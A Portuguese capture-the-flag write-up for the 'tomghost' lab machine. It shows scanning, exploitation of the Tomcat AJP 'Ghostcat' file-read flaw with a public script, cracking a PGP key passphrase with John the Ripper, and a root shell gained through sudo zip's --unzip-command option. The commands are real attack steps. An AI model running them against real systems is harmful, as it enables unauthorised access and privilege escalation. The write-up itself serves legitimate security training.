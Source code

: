 # _**tomghost CTF**_
![](ghost.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um <mark>tomcat</mark> na prota 8080  
Vamos investigar e também realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../Discovery/Web-Content/common.txt
> gobuster dir --url [ip_adress]:8080 -w ../Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt
> ```
![](scan_gobuster.jpg)  

![](scan_gobuster2.jpg)  

Parece que temos alguns diretórios bem interessantes  
Apesar da busca, nada foi encontrado  
Voltando as análises do Nmap, temos uma porta bem curiosa: 8009  
Pesquisando no Google sobre <mark>Apache Tomcat ajp</mark>, foi possível encontrar uma CVE: 1938  
Para confirmarmos, vamos utilizar o Nmap
> ```bash
> nmap -p 8009 --script ajp-methods [ip_address]
> ```
![](script_vuln.jpg)

Temos retorno!  
Vamos tentar explorar  

## _**Ganhando acesso**_
Buscando no Google um pouco mais para tentar descobrir onde podemos encontrar um _exploit_, chegamos [neste link](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  
Primeiro
> ```bash
> git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
> ```
> ```bash
> cd Ghostcat-CNVD-2020-10487
> ```

Segundo
> ```bash
> python3 ajpShooter.py -h [ip_address] -p 8009 -f WEB-INF/web.xml
> ```
Temos uma resposta para o comando acima!  

![](compromise.jpg)

Vamos realizar login via SSH com o usuário e senha encontrados  

![](ssh_login.jpg)

Após login, investigamos os diretórios e descobrimos que tem outro usuário, _merlin_
Nele, contém nossa primeira flag!

## _**Escalando privilégios**_
Primeiro, vamos tentar alguns comandos como ```sudo -l```  
Nenhum retorno  
Encontramos dois arquivos, um _.asc_ e outro _.pgp_  
Podemos tentar extrair para nossa máquina com ```scp```  
Após a extração, tentar importar a chave com gpg --import _.asc_  
Necessário uma senha!  
Vamos tentar fazer isso na máquina-alvo  

![](gpg_import.jpg)

Parece que iremos precisar de uma senha  
Vamos tentar de uma maneira diferente usando <mark>John the Ripper</mark>  
> ```bash
> gpg2john .asc > hash_john
> ```
> ```bash
> john hash_john -w=../rockyou.txt
> ```
![](john_break.jpg)

Vamos agora voltar para a máquina-alvo e executar:
> ```bash
> gpg --decrypt credential.pgp
> ```
![](decrypt.jpg)

Vamos realizar login via SSH como _merlin_  

![](login_merlin.jpg)

Agora sim, executando o comando ```sudo -l```, temos retorno

![](sudo_l.jpg)

Vamos executar os seguintes comandos:
> ```bash
> echo "/bin/sh" > /tmp/shell.sh
> ```
> ```bash
> chmod +x /tmp/shell.sh
> ```
> ```bash
> cd /tmp
> ```
> ```bash
> echo "X" > test.txt
> ```
> ```bash
> sudo /usr/bin/zip /tmp/test.zip /tmp/test.txt -T --unzip-command="/tmp/shell.sh"
> ```
![](root.jpg)

Basta buscar a flag em /root
